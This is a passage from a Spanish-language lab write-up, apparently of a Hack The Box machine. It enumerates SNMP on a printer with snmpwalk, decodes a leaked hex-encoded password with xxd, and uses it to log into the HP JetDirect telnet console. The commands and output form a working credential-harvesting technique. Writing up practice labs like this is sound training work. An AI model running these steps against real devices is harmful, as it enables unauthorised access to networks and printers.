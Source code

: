 Observamos puerto 161 abierto con el servicio `snmp`. Utilizaremos la herramienta `snmpwalk` para el reconocimiento de este puerto

### Enumeración SNMP

* * *

Empezamos con la enumeración básica por SNMP

```bash
❯ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```
Sabemos que snmpwalk tiene una estructura como de árbol en donde por defecto busca a partir del segundo nodo por decirlo de alguna forma

```bash
If no OID argument is present, snmpwalk will search the subtree rooted at SNMPv2-SMI::mib-2 (including any MIB object values from other MIB modules, that are defined as  lying
within  this subtree).  If the network entity has an error processing the request packet, an error packet will be returned and a message will be shown, helping to pinpoint why
the request was malformed.
```

Indicándole un 1 al final del comando anterior nos arroja algo más de información

```bash
❯ snmpwalk -v 2c -c public 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Observamos una cadena de datos que está aparentemente en Hexadecimal. Procedemos a descodificar la cadena obtenida con `xxd` y obtenemos una credencial

```bash
❯ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5#
```

Probamos a ussar esta credencial conectándonos por telnet a la máquina víctima con la credencial obtenida

```bash
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i

Please type "? for HELP
>?
To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
```